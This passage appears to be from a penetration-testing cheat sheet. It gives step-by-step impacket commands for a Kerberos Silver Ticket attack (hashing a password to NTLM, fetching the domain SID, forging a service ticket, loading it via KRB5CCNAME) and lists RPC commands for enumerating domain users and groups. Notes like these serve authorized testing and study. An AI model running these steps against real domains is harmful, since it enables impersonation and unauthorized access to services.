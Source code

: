 #### References
- [https://www.crowdstrike.com/cybersecurity-101/kerberoasting/](https://www.crowdstrike.com/cybersecurity-101/kerberoasting/)


## Silver ticket attack
A Silver Ticket is a forged TGS (Ticket Granting Service) ticket, which is used directly between the client and the service, without necessarily going to the DC. Instead, the TGS ticket is signed by the service account itself, and thus the Silver Ticket is limited to authenticating only the service itself.      
-[https://www.crowdstrike.com/cybersecurity-101/attack-types/silver-ticket-attack/](https://www.crowdstrike.com/cybersecurity-101/attack-types/silver-ticket-attack/)


### Steps
1. Generate NTLM hash
    ```bash
    iconv -f ASCII -t UTF-16LE <(printf "password") | openssl dgst -md4
    ```
2. Get Domain SID
    *Use impacket-getPac*
    ```bash
    getPac.py -targetUser <username> <domain>/<username>:<password>
    ```
3. Generate ticket
    *Use impacket-ticketer*
    ```bash
    ticketer.py -nthash <ntlm_hash> -domain-sid <sid> -domain <domain> -dc-ip <ip> -spn <service_spn> <username>
    ```
4. Add the ticket location to `KRB5CCNAME`
    ```bash
    KRB5CCNAME=<username>.ccache klist
    ```



# RPC
## Enumeration
```bash
# USERS
querydispinfo
enumdomusers

## User details
queryuser <rid>

## User groups
queryusergroups <rid>

## SID
lookupnames <rid>

## Aliases
queryuseraliases builtin <username>


# GROUPS
enumdomgroups

## Group Details
querygroup <rid>
```